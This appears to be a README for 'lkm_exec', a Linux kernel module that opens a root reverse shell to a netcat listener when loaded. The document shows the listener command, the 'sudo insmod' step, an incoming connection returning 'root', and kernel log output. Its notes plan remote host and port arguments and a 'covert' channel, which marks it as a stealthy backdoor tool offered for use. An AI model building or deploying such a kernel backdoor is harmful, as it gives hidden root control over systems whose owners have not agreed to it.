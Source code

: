 ## TODO:
- [ ] Update this to a more recent version. we can include app parameter now. As seen in the POCS Folder.



## Usage

In a terminal (denoted T1):

| T1 |
|---|
```
nc -nvklp 1234
      Listening on 0.0.0.0 1234
```

and in another terminal (this time denoted T2):
| T2 |
|---|

`sudo insmod lkm_exec.ko` - *this will later change into arguments you actually can pass to it; like RH and RP. As well as a (covert) channel of choice*


(and go back to **`T1`**)
| T1 |
|---|

```
nc -nvklp 1234
    Listening on 0.0.0.0 1234
    Connection received on 127.0.0.1 47600

whoami
    root

exit
```

**How does the kern.log file look now?**
```
user@nvidia_VFIO_ws:/lkm3$ cat /var/log/kern.log 
  lkm_exec          [on]   <-- module is loaded by `sudo insmod`
  lkm_exec START P1 [*]    <-- module's start function 'START' is called
  lkm_exec START P2 [*]    <-- START completed. Output redirected. Cleaning up.
  lkm_exec          [off]  <-- exit, unloading module.
```
